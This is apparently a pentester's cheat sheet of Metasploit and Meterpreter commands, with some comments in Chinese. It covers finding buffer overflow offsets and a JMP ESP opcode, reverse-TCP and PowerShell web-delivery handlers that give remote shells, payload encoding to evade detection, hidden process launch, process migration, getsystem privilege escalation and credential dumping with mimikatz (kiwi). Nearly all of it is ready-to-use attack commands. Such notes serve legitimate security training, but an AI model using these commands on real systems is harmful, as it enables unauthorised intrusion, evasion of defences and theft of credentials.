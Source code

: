 ###### Testing buffer size
msf-pattern_create -l 800  
msf-pattern_create -l 2000 -s ABCDEF,def,1234(custom chars set,it can remove some specific bad chars)  
msf-pattern_offset -l 800 -q 42306142

###### To find the opcode equivalent of JMP ESP
```
msf-nasm_shell  
nasm > jmp esp  
00000000  FFE4              jmp esp  
```
###### Post-exploit
```
set AutoRunScript post/windows/manage/migrate #stable the shell
```
###### Metasploit Pose-exploit commands:
```
bg
show sessions
sessions id
quit # 退出会话
execute -H -i -f cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互
```
###### Settingg up local listener
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOST ip
set LPORT port
exploit
```
###### Setting up local powershell reverse tcp listener
```
use exploit/multi/script/web_delivery
set target 2 #important
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.199.128
set lport 4444
run
```
###### multi/handler payload encode
```
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
```
###### Migrating Processes
Note that we are only able to migrate into a process executing at the same privilege and integrity level or lower than that of our current process.
```
ps
migrate pid
```
###### Meterpreter command to use powershell
```
meterpreter > :
load powershell
help powershell
powershell_execute "$PSVersionTable.PSVersion"
```
###### Meterpreter command to use mimikatz
```
meterpreter > :
load kiwi
getsystem
creds_msv
```
